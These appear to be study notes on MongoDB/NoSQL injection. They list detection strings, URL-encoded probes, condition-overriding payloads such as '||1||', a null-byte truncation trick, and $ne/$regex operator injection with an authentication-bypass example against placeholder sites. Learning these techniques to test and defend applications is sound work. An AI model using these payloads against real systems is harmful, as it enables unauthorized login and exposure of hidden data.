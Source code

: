 
## syntax injection 
- this type is very rare now

consider this backend query for the following examples : 
```mongodb
db.users.find({ $where: function () { return this.name == <userInput> } });
```

#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
'||1||'
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
code in backend :
```
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```

